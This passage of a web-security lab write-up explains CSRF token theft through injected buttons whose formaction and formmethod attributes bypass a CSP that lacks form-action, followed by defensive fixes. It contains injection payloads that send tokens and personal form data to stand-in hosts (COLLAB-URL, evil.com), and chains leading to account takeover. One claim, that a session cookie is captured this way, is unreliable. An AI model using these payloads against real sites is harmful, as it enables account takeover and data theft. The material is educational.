└── Method 2: Quick, reliable solution without Pro tools
```

---

## ⚙️ **Technical Deep Dive**

### **Understanding Burp Collaborator**

```js
What is Burp Collaborator?

Definition:
└── Out-of-band interaction server
    └── Detects interactions you can't see directly
        └── Provides unique subdomains per session
            └── Logs all HTTP/DNS/SMTP requests

How it works:

1. Request unique subdomain:
   └── Burp generates: abc123xyz.oastify.com

2. Use in exploit:
   └── formaction="https://abc123xyz.oastify.com/token"

3. Victim interacts:
   └── Browser sends: GET /token?csrf=TOKEN123

4. Collaborator logs request:
   └── Stores full HTTP request details

5. Poll for interactions:
   └── Burp retrieves logged requests
       └── Shows captured data! ✓

Why it's powerful:

Traditional exfiltration:
├── Need attacker server
├── Need public IP
├── Need domain
└── Complex setup! ❌

Collaborator:
├── Already hosted by Burp
├── Already configured
├── Already monitored
└── Just copy URL! ✅

Use cases:

1. CSRF token exfiltration (this lab)
2. Blind XSS detection
3. SSRF testing
4. XXE out-of-band exploitation
5. DNS exfiltration
6. SQL injection blind detection

The magic:
└── Detects interactions you can't otherwise see
    └── Makes invisible attacks visible
        └── Essential for blind vulnerabilities! 💡

Alternatives (if no Burp Pro):

1. Webhook.site
   └── Free webhook receiver
       └── Similar functionality
           └── But no DNS/SMTP

2. RequestBin
   └── HTTP request inspector
       └── Limited features

3. Your own server
   └── VPS with web server
       └── Full control
           └── But requires setup

Burp Collaborator advantages:
✅ Built into Burp Pro
✅ No setup needed
✅ Automatic polling
✅ Multiple protocols
✅ Professional tool! 💼
```

---

### **Understanding CSRF PoC Generator**

```js
What is the CSRF PoC Generator?

Definition:
└── Burp Suite Pro feature
    └── Automatically creates HTML for CSRF attacks
        └── Generates working exploit from HTTP request
            └── Saves time and effort! ✓

How it works:

Input: HTTP request
POST /my-account/change-email HTTP/1.1
email=test@test.com&csrf=TOKEN123

Output: HTML with auto-submit
<form action="/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="test@test.com" />
    <input type="hidden" name="csrf" value="TOKEN123" />
    <input type="submit" value="Submit" />
</form>
<script>
    document.forms[0].submit();
</script>

What it generates:

1. Form tag with correct action/method ✓
2. Hidden inputs for all parameters ✓
3. Auto-submit JavaScript ✓
4. URL cleanup (history.pushState) ✓

Benefits:

Manual approach:
├── Write HTML form
├── Add all parameters
├── Encode special characters
├── Add auto-submit script
├── Test and debug
└── Time consuming! ⏰

CSRF PoC Generator:
├── Right-click request
├── Select "Generate CSRF PoC"
├── HTML ready immediately
├── Copy and use
└── Saves time! ⚡

Customization options:

1. Auto-submit
   └── On/Off toggle
       └── Auto or manual button

2. URL encoding
   └── HTML entities or URL encoding
       └── Compatibility options

3. Request method
   └── Keeps original or changes
       └── POST/GET selection

Testing features:

1. Test in browser
   └── Built-in browser to test PoC
       └── See if it works

2. Regenerate options
   └── Different encoding methods
       └── Try various approaches

The power:
└── Transforms request → working exploit
    └── In seconds
        └── Professional efficiency! 💼

For this lab:
└── Generated auto-submit HTML
    └── Modified email and CSRF token
        └── Instant working exploit! ✓

Without Burp Pro:
└── Must write HTML manually
    └── More time and effort
        └── But still possible! ✓
```

---

### **Why formaction and formmethod Work**

```r
Understanding Form Attributes:

Standard form submission:
<form method="POST" action="/submit">
    <input name="data" value="test">
    <button type="submit">Submit</button>
</form>

When clicked:
POST /submit
data=test

With formaction override:
<form method="POST" action="/submit">
    <input name="data" value="test">
    <button formaction="/different" type="submit">Submit</button>
</form>

When clicked:
POST /different
data=test

The formaction attribute:
└── Overrides form's action for specific button
    └── Only that button uses different action
        └── Other buttons use form's action ✓

With formmethod override:
<form method="POST" action="/submit">
    <input name="data" value="test">
    <button formaction="/different" formmethod="GET" type="submit">Submit</button>
</form>

When clicked:
GET /different?data=test

The formmethod attribute:
└── Overrides form's method for specific button
    └── Changes POST to GET
        └── Data appears in URL! ✓

Why this bypasses CSP:

CSP in this lab:
Content-Security-Policy: default-src 'self'; script-src 'self'

What's missing:
form-action directive
└── Controls where forms can submit
    └── NOT present
        └── Forms can submit anywhere! 💥

With formaction:
<button formaction="https://evil.com">
└── Form submits to evil.com
    └── CSP doesn't block it
        └── No form-action directive! ✓

The attack chain:

1. Inject button with formaction
   └── Points to Collaborator

2. Add formmethod="GET"
   └── Changes POST to GET

3. Victim clicks button
   └── Form submits to Collaborator via GET

4. CSRF token in URL
   └── GET requests show data in URL

5. Collaborator captures
   └── Token extracted! ✓

Why CSP doesn't stop this:
└── CSP blocks scripts and resources
    └── But NOT form submissions
        └── Need form-action directive
            └── Missing = vulnerable! 💥

The fix:
Content-Security-Policy: 
    default-src 'self'; 
    script-src 'self'; 
    form-action 'self';

With form-action 'self':
└── Forms can only submit to same origin
    └── formaction to external domain blocked
        └── Attack prevented! ✅
```

---

## 🚀 **Attack Variations**

### **Variation 1: Multiple Token Captures**

```http
Capture tokens from multiple victims:

Stage 1: Create universal exfiltration payload
Payload:
"><button class="button" formaction="https://COLLAB-URL/capture" formmethod="GET" type="submit">Click me</button><base target="

Stage 2: Deliver to multiple victims
└── Each click captures that victim's token
    └── Collaborator logs all requests
        └── Multiple tokens captured! 💥

Collaborator log:
Request 1:
GET /capture?csrf=VictimA-Token123
Host: COLLAB-URL

Request 2:
GET /capture?csrf=VictimB-Token456
Host: COLLAB-URL

Request 3:
GET /capture?csrf=VictimC-Token789
Host: COLLAB-URL

Use case:
└── Target multiple accounts
    └── Capture all tokens
        └── Attack each individually
            └── Batch compromise! 💀
```

---

### **Variation 2: Data Exfiltration Beyond CSRF**

```http
Capture more than just CSRF token:

Modify payload to capture all form data:
"><button class="button" formaction="https://COLLAB-URL/exfil" formmethod="GET" type="submit">Update Profile</button>

If form has multiple fields:
<form method="POST" action="/profile/update">
    <input name="email" value="user@example.com">
    <input name="phone" value="555-1234">
    <input name="address" value="123 Main St">
    <input name="csrf" value="TOKEN123">
</form>

When button clicked:
GET /exfil?email=user@example.com&phone=555-1234&address=123+Main+St&csrf=TOKEN123

Captured data:
├── Email address
├── Phone number
├── Home address
└── CSRF token

All personal data exfiltrated! 💀

Use case:
└── Reconnaissance phase
    └── Gather information
        └── Plan targeted attack
            └── Information gathering! 🔍
```

---

### **Variation 3: Delayed Attack**

```http
Capture token now, use later:

Stage 1: Capture token (today)
└── Deliver exfiltration payload
    └── Capture victim's CSRF token
        └── Store for later use

Stage 2: Wait for opportunity (days/weeks later)
└── Victim posts valuable information
    └── Or account becomes more valuable
        └── Time to strike!

Stage 3: Use stored token (when ready)
└── Generate CSRF PoC with stored token
    └── Deliver to victim
        └── Attack executes! 💥

Problem:
└── CSRF tokens usually expire
    └── Session-based tokens
        └── Short lifetime (minutes/hours)

Solution:
└── Capture session cookie too!
    └── Use in attack request
        └── Maintain session validity ✓

Enhanced payload:
"><button class="button" formaction="https://COLLAB-URL/grab" formmethod="GET" type="submit">Click</button>

Collaborator receives:
GET /grab?csrf=TOKEN123
Cookie: session=SESSION-ID

Captured:
├── CSRF token
└── Session cookie

Use both in attack:
└── Session keeps token valid
    └── Token authorizes action
        └── Extended attack window! ⚠️
```

---

### **Variation 4: Chaining with Other Vulnerabilities**

```js
Combine form hijacking with other bugs:

Scenario: Lab also has open redirect

Open redirect:
/redirect?url=https://evil.com
└── Redirects to attacker domain

Combined attack:
Stage 1: Capture token via form hijacking
Stage 2: Use token in CSRF attack
Stage 3: After email change, trigger open redirect
Stage 4: Redirect to phishing page
Stage 5: Steal new credentials

Payload chain:
1. Exfil form: Captures token
2. CSRF PoC: Changes email
3. Redirect: /redirect?url=https://evil.com/phish
4. Phishing: Captures new password

Complete account takeover! 💀

Another example: Self-XSS escalation

Self-XSS alone:
└── Attacker can execute XSS on own account
    └── But can't affect other users
        └── Low impact ❌

Self-XSS + Form Hijacking:
1. Capture victim's CSRF token
2. Use token to change victim's email
3. Trigger password reset
4. Receive reset link (now going to your email)
5. Reset victim's password
6. Login as victim
7. Trigger Self-XSS on victim's account
8. XSS executes in victim's session

Impact:
└── Low severity bug → High severity
    └── Chaining vulnerabilities
        √── Maximum impact! 💥
```

---
---

## 🛡️ **How to Defend**

---

### **Defense 1: Add form-action Directive (Critical)**

```js
✅ SECURE - Complete CSP with form-action:

Content-Security-Policy: 
    default-src 'self'; 
    script-src 'self'; 
    form-action 'self';
    base-uri 'none';

Why this works:
├── form-action 'self' restricts form submissions
├── Forms can only submit to same origin
├── formaction to external domains blocked
├── formmethod still works but can't change destination
└── Attack prevented! ✅

Testing:
<form method="POST" action="/submit">
    <button formaction="https://evil.com" formmethod="GET">
        Submit
    </button>
</form>

Result with form-action 'self':
└── Browser blocks submission
    └── Console error:
        "Refused to send form data to 'https://evil.com' 
         because it violates the following Content Security 
         Policy directive: 'form-action 'self''"
    └── Attack fails! ✓

Complete Secure CSP:
Content-Security-Policy: 
    default-src 'self'; 
    script-src 'self'; 
    style-src 'self'; 
    img-src 'self'; 
    font-src 'self'; 
    connect-src 'self'; 
    form-action 'self';
    frame-ancestors 'none'; 
    base-uri 'none';
    upgrade-insecure-requests;

This blocks:
✅ External scripts
✅ Inline scripts  
✅ External stylesheets
✅ External images
✅ External form submissions ← KEY!
✅ Iframe embedding
✅ Base tag hijacking
✅ Comprehensive protection! 🛡️
```

---

### **Defense 2: Output Encoding (Essential)**

```python
✅ SECURE - Proper HTML encoding:

Server-side (Python/Flask):
from html import escape

@app.route('/my-account')
def my_account():
    email = request.args.get('email', '')
    
    # Encode for HTML context
    safe_email = escape(email)
    
    return render_template('account.html', email=safe_email)

What escape() does:
Input: hacker@evil-user.net"><button>Click</button>
Output: hacker@evil-user.net&quot;&gt;&lt;button&gt;Click&lt;/button&gt;

Character mappings:
& → &amp;
< → &lt;
> → &gt;
" → &quot;
' → &#x27;

In HTML:
<input value="hacker@evil-user.net&quot;&gt;&lt;button&gt;Click&lt;/button&gt;">

Browser displays:
hacker@evil-user.net"><button>Click</button>
└── As TEXT, not as HTML! ✓

Attack prevented:
└── < > " encoded
    └── Cannot break out of attribute
        └── Cannot inject HTML
            └── No button injection! ✅

Context-aware encoding:

HTML context:
<div>USER_INPUT</div>
└── Use: HTML entity encoding

Attribute context:
<input value="USER_INPUT">
└── Use: HTML entity encoding + attribute escaping

JavaScript context:
<script>var x = "USER_INPUT";</script>
└── Use: JavaScript escaping

URL context:
<a href="/redirect?url=USER_INPUT">
└── Use: URL encoding

Always encode for context! ✓
```

---

### **Defense 3: Input Validation (Defense in Depth)**

```python
✅ SECURE - Strict email validation:

Server-side (Python):
import re

def validate_email(email):
    """
    Validate email format strictly.
    """
    # Maximum length
    if len(email) > 254:
        return False
    
    # RFC 5322 compliant pattern
    pattern = r'^[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$'
    
    if not re.match(pattern, email):
        return False
    
    # Block dangerous characters
    dangerous_chars = ['<', '>', '"', "'", '\\', '`', ';', '&', '|', '\n', '\r']
    if any(char in email for char in dangerous_chars):
        return False
    
    # Block HTML entities
    if '&#' in email or '&lt;' in email or '&gt;' in email:
        return False
    
    return True

@app.route('/my-account')
def my_account():
    email = request.args.get('email', '')
    
    # Validate before processing
    if email and not validate_email(email):
        # Return error or ignore
        email = ''
    
    # Still encode output!
    return render_template('account.html', email=escape(email))

Input: hacker@evil-user.net"><button>Click</button>
Validation: Fails (contains < > ")
Result: Rejected ✓

Input: hacker@evil-user.net
Validation: Passes ✓
Result: Accepted ✓

Defense layers:
1. Input validation (reject bad input)
2. Output encoding (make safe for display)
3. CSP (prevent execution if bypassed)
└── Defense in depth! 🛡️
```

---

### **Defense 4: SameSite Cookies (CSRF Protection)**

```js
✅ SECURE - Prevent CSRF with SameSite:

Set-Cookie: session=abc123; SameSite=Strict; Secure; HttpOnly

SameSite=Strict:
└── Cookie only sent on same-site requests
    └── Not sent on cross-site form submissions
        └── CSRF protection! ✓

How it helps this attack:

Without SameSite:
1. Victim loads exploit server (cross-site)
2. Exploit redirects to lab (cross-site navigation)
3. Cookie sent with request
4. CSRF token validated
5. Email changed ❌

With SameSite=Strict:
1. Victim loads exploit server (cross-site)
2. Exploit redirects to lab (cross-site navigation)
3. Cookie NOT sent (cross-site)
4. Server rejects (no session)
5. Attack fails ✓

SameSite=Lax (default in modern browsers):
└── Allows GET navigation
    └── Blocks POST/DELETE/etc. on cross-site
        └── Some protection ✓

For this lab:
└── SameSite=Strict would prevent attack
    └── Even with valid CSRF token
        └── No session cookie = rejected ✓

Complete cookie:
Set-Cookie: session=abc123; 
    SameSite=Strict; 
    Secure; 
    HttpOnly; 
    Path=/; 
    Max-Age=3600;

Cookie attributes:
├── SameSite=Strict → No cross-site sending
├── Secure → HTTPS only
├── HttpOnly → No JavaScript access
├── Path=/ → Entire site
└── Max-Age=3600 → 1 hour expiry

All together:
└── Maximum cookie security! 🛡️
```

---

### **Defense 5: CSRF Token Validation (Proper Implementation)**

```python
✅ SECURE - Robust CSRF implementation:

Token generation:
import secrets
import hmac
import hashlib

def generate_csrf_token(session_id):
    """
    Generate cryptographically secure CSRF token.
    """
    secret_key = app.config['SECRET_KEY']
    
    # Create token based on session
    token = hmac.new(
        secret_key.encode(),
        session_id.encode(),
        hashlib.sha256
    ).hexdigest()
    
    return token

Token validation:
def validate_csrf_token(session_id, token):
    """
    Validate CSRF token.
    """
    expected_token = generate_csrf_token(session_id)
    
    # Constant-time comparison (prevents timing attacks)
    return hmac.compare_digest(expected_token, token)

Email change endpoint:
@app.route('/my-account/change-email', methods=['POST'])
def change_email():
    session_id = session.get('id')
    csrf_token = request.form.get('csrf')
    new_email = request.form.get('email')
    
    # Validate session exists
    if not session_id:
        return "No session", 401
    
    # Validate CSRF token
    if not csrf_token or not validate_csrf_token(session_id, csrf_token):
        return "Invalid CSRF token", 403
    
    # Validate email
    if not validate_email(new_email):
        return "Invalid email", 400
    
    # All checks passed - update email
    user.email = new_email
    db.session.commit()
    
    return "Email updated successfully"

Why this lab's token isn't enough:
└── Token exists and is validated ✓
    └── But form can be hijacked
        └── Token submitted to attacker
            └── Then used against victim
                └── Need form-action CSP! ⚠️

Additional protections:

1. Double Submit Cookie
   └── CSRF token in both cookie and form
       └── Both must match
           └── Attacker can't set cookies ✓

2. Origin Header Validation
   └── Check Origin/Referer headers
       └── Must match expected domain
           └── Cross-site requests rejected ✓

3. Custom Header Requirement
   └── Require X-CSRF-Token header
       └── AJAX requests only
           └── Form submissions can't add headers ✓

4. Re-authentication for Sensitive Actions
   └── Require password for email change
       └── CSRF token not enough
           └── Extra security layer! 🛡️
```

---

### **Defense 6: Rate Limiting and Monitoring**

```python
✅ SECURE - Detect and prevent abuse:

Rate limiting:
from flask_limiter import Limiter

limiter = Limiter(
    app,
    key_func=lambda: session.get('user_id'),
    default_limits=["200 per day", "50 per hour"]
)

@app.route('/my-account/change-email', methods=['POST'])
@limiter.limit("5 per hour")
def change_email():
    # Process email change
    pass

Why this helps:
└── Attacker trying multiple victims
    └── Rate limit kicks in
        └── Blocks excessive requests
            └── Attack slowed/stopped ✓

Monitoring and alerting:
import logging

@app.route('/my-account/change-email', methods=['POST'])
def change_email():
    # Log email change attempt
    logging.info(f"Email change attempt: {session['user_id']} → {new_email}")
    
    # Check for suspicious patterns
    if is_suspicious(new_email):
        # Alert security team
        send_alert(f"Suspicious email change: {new_email}")
        
        # Require additional verification
        return redirect('/verify-email-change')
    
    # Process normally
    ...

Suspicious patterns:
├── Email domain: evil-user.net, hacker.com, etc.
├── Frequent changes (multiple in short time)
├── Changes to known malicious emails
└── Trigger additional checks ⚠️

SIEM Integration:
└── Send logs to Security Information and Event Management
    └── Correlate with other events
        └── Detect coordinated attacks
            └── Enterprise protection! 🛡️
```

---
